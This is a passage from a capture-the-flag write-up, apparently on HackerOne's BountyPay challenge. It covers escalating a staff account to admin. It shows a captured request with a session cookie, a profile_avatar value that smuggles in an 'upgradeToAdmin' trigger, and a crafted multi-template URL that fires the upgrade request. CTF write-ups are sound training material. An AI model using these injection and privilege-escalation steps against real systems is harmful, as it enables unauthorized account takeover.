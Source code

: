 ```
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://staff.bountypay.h1ctf.com/?template=home
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,de;q=0.8,es;q=0.7,id;q=0.6,ms;q=0.5
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwSmVNbFRkbnIvU3MzMndYSW5XNmNFS1l5T1FDdTVNZFJPMS9TTWtDWEFkODBtRGRlbXpERlZ5WVlUdVZ6eDA0VnkxaWxRbU9CUVA2dFVoOTdwQVljb0NpbSt2d0RkYVF1N1BHUmFSbjZkNHpH

profile_name=undefined&profile_avatar=avatar2%20upgradeToAdmin%20tab4
```

now if we open the ticket with this url `https://staff.bountypay.h1ctf.com/?template=ticket&ticket_id=3582#tab4` this will trigger an ajax request to upgrade admin with `username=undefined` because the javascript trying to find value from `<input name="username">` which is only defined on the `?template=login` and i was found that we can select multiple template at once using array parameter.

![invalid-ajax.png](/images/h12006/invalid-ajax.png)

Opening this url `https://staff.bountypay.h1ctf.com/?template[]=login&template[]=ticket&ticket_id=3582&username=sandra.allison#tab4` will give the valid request to upgrade user to admin, sending this url with `base64 encoded` will give you a cookie with min privs.
